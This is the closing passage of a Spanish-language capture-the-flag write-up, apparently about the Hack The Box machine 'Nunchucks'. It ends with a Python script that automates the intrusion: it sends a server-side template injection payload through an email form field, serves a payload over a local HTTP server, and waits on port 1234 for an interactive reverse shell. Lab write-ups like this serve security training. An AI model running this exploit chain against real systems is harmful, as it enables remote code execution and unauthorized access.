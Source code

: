 ```python
    # el primer backslash del payload no va, es solo para que la sintaxis de md me deje poner el payload.
    post_data = { 
        "email": payload
     }
    print("[+] Explotando el SSTI")
    r = s.post(nunIP,data=post_data,verify=False)

def http_server():

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")


if __name__ == '__main__':

    print("[!] Recuerda agregar el dominio nunchucks.htb y store.nunchucks.htb a tu /etc/hosts.")
    html_payload()
    sleep(2)   
    http_server()
    threading.Thread(target=ssti, args=()).start()
    shell = listen(1234,timeout=20).wait_for_connection()
    shell.interactive()
```
¡Listo!, terminamos la automatización de la intrusión.

Nos vemos, hasta la próxima.
